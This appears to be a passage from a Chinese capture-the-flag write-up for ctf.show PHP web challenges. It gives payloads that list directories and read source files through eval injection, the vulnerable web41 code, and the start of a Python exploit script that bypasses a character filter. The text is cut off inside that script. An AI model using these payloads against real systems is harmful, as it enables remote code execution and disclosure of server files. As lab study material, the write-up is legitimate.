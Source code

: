 查看目录文件

```
?c=print_r(scandir(current(localeconv())));
```

**payload**

```
/?c=show_source(next(array_reverse(scandir(pos(localeconv())))));
```

------

#### web41

```php
if(isset($_POST['c'])){
    $c = $_POST['c'];
if(!preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i', $c)){
        eval("echo($c);");
    }
}

```

**payload**

```python
#-- codinI:UTF-8 --


# 导入用于发送 HTTP 请求的 requests 模块。
import requests
#导入用于 URL 编码解码的 urllib 模块
import urllib
#导入正则表达式模块
import re

#导入 sys 模块的所有内容
from sys import *

# 如果命令行参数的数量不等于2，则输出使用说明并退出
if len(argv) != 2:

    print("="*50)
    print('USER:python exp.py <url>')
    print("eI:  python exp.py http://ctf.show/")
    print("exit: input exit in function")
    print("="*50)
    exit(0)
# 获取命令行参数中的 URL 
url=argv[1]

#生成可用的字符,定义一个函数，生成可用字符的组合并写入到文件 rce.txt 中
def write_rce():
    result = ''

    # 定义一个正则表达式字符串 preg，用于匹配数字、小写字母以及一些特殊字符。
    #这一段是需要更改的
    preg = '[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-'

    # 遍历 ASCII 码中的所有可能字符。
    for i in range(256):
        # 在每次循环中，再次遍历 ASCII 码中的所有可能字符
        for j in range(256):
            #如果字符 chr(i) 和 chr(j) 都不匹配正则表达式 preg，即它们不是数字、小写字母或特殊字符之一，那么执行以下操作。
            if not (re.match(preg, chr(i), re.I) or re.match(preg, chr(j), re.I)):
```